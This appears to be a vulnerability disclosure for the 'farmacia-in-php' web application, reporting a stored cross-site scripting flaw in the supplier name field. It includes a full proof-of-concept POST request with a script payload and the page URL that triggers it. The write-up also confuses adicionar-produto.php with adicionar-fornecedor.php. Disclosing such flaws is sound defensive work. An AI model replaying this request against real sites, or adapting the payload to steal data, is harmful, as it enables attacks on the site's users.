 # farmacia-in-php has Cross Site Scripting vulnerability in adicionar-produto.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
adicionar-produto.php

## describe
In adicionar-fornecedor.php.There are unrestricted cross site scripting attacks and injection attacks in the farmacia-in-php. The controllable parameters are as follows: nome parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Querying data from the database and storing it in the $reg\[$cont\]\['nome'\], and the echo nome is not filtered, resulting in the execution of XSS statements.

![image-20241128083927477](https://github.com/user-attachments/assets/575b0ac7-8215-478c-99f8-b9a5bd11756c)



## POC

```
POST /adicionar-fornecedor.php HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------343575567911858812221258670237
Content-Length: 1452
Origin: http://farmacia
Connection: close
Referer: http://farmacia/adicionar-fornecedor.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="nome"

<script>alert('xss');</script>
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cpf"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="inscricao"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="endereco"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="numero"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="bairro"

11
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cidade"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cep"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="uf"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="telefone"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="email"

1@outlook.com
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="acao"


-----------------------------343575567911858812221258670237--

```

![image-20241127093510427](https://github.com/user-attachments/assets/d301c25b-df2d-43c7-8de4-f4bb2f5fe0a3)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/adicionar-produto.php
```

**Result**

![image-20241126221600209](https://github.com/user-attachments/assets/4ac05f98-aa5b-4e97-a50c-3c8ed574c663)
